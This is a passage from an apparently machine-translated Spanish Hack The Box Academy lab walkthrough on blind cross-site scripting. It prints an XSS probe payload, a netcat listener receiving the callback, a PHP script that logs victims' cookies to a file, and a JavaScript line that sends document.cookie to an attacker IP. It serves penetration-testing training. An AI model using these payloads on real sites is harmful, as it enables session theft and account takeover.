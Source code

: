 ```javascript
 "><script src=http://10.10.14.15:9000/TESTING_THIS</script>
```

Cambie la IP por su cuenta y comience un`Netcat`oyente en el puerto 9000 (o cualquier puerto que desee). Haga clic en el`Send`Botón y revise a su oyente una devolución de llamada para confirmar la vulnerabilidad.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ nc -lvnp 9000

listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Host: 10.10.14.15:9000
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Este es un ejemplo de un ataque de secuencias de comandos de sitios cruzados ciegos (XSS). Podemos revisar los métodos para la detección de XSS ciegos en el[Scripting de sitios cruzados (XSS)](https://academy.hackthebox.com/module/103/section/1008)módulo.

Ahora necesitamos descubrir cómo podemos robar la cookie de un administrador para que podamos iniciar sesión y ver qué tipo de acceso podemos obtener. Podemos hacer esto creando los siguientes dos archivos:

1. índice.php

Código:php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

2. script.js

Código:javascript

```javascript
new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie
```
